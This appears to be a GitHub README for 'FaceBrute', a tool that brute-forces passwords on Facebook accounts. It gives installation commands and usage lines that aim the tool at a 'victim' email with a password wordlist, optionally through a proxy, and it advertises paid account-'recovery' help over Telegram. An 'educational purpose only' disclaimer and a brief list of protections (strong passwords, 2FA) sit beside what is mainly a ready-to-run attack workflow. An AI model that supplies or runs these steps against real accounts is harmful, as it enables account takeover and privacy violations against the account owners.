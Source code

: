 # FaceBrute
```
A Bruteforce attack, For educational purpose only
```
###### A Free Facebook Bruteforce Attack Tool.
***
### <p align="center">Hack can be executed on Termux && any Linux Distribution 
***

  Message Me For Any Social Media Recovery Tool Telegram-:(https://t.me/alphahacklord)
```
Note : Please try not to harm anyone social media account 
       Just For The Purpose Of Fun And Not For Revenge
```      

## Install Requirements (on Linux)
```
>> apt-get install git python3 python3-pip python python-pip
>> python3 -m pip install requests bs4
>> python3 -m pip install mechanize
```

## The Tool is for :
- Kali Linux
- Parrot Os
- BlackArch Linux
- Termux
- iShell
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
>>apt update && apt upgrade -y
```
```bash
>>apt install git -y
```
```bash
>>git clone https://github.com/Alpha-HackLord/facebrute.git
```
```bash
>>cd facebrute
```
```bash
>>bash setup
```
```bash
>>python3 FBRUTE.py or FBRUTE2.py or FBRUTE3.py
```
## Protection Against Attacker
* Use Strong Password(which contains standard password chars + longest as possible)
* Use 2F Authentication.
* Make location based login(+browser based).

## usage for FBRUTE3 :-
  - **You can use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without any proxy**:
  
  * **Command**: python facebook_hack.py -t victim@gmail.com -w passwords.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python facebook_hack.py -t victim@gmail.com -w passwords.txt -p 144.329.281.245:8080
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python facebook_hack.py -g https://www.facebook.com/hackgod
  
